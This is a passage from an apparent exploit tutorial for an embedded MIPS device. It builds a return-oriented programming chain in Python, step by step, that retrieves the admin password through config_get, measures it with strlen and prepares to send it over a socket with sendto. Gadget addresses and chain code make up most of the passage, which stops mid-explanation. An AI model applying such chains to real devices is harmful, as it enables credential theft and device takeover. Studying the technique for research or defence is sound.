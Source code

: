 With the correct address in _$v0_, we can now use a similar **jalr** containing gadget to call the _config_get_ function - but as we are not worried about the return value, we can use the cleaner gadget that clears _$v0_:

```
-python
## Now call config get
# 0x00015114: jalr $v0; nop; lw $ra, 4($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 0x4
chain += p32(0x19bc70 + base_address) # ra
```

### strlen

**size_t strlen(const char \*str)**

With the admin password safely stored in our buffer, we can now work out how many bytes we need to send over the socket. All we need to do is move the address of our buffer into _a0_, and call _strlen_. We start by populating _$a0_:

```
-python
# Regain control of s0
# 0x0019bc70: lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(pwd_buffer) # s0
chain += p32(0xb018c + base_address) # ra

# Move pwd buffer address into a0
# 0x000b018c: move $a0, $s0; lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0xdeadbeef) # s0
chain += p32(0x57864 + base_address) # ra
```

Then we load the address of _strlen_ into _v0_, and call the function using the ugly **jalr** gadget as we care about the return value - you should remember this from earlier:

```
-python
# Load address of strlen into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(strlen_addr) # v0 - strlen address
chain += b'b' * 8
chain += p32(0x133d58 + base_address) # ra

# Call strlen and regain control
# 0x00133d58: jalr $v0; nop; move $s0, $v0; lw $ra, 0x24($sp); move $v0, $s0; lw $s2, 0x20($sp); lw $s1, 0x1c($sp); lw $s0, 0x18($sp); jr $ra; addiu $sp, $sp, 0x28;
chain += b'b' * 0x18
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0x166168 + base_address) # ra
```

So at this point, we have the length of the password in _$v0_. I hate to spoil the next function call we are going to make, but its _sendto_, which takes the number of bytes to send as its 3rd argument. Therefore, we need to move the contents of _$v0_ into _$a2_:

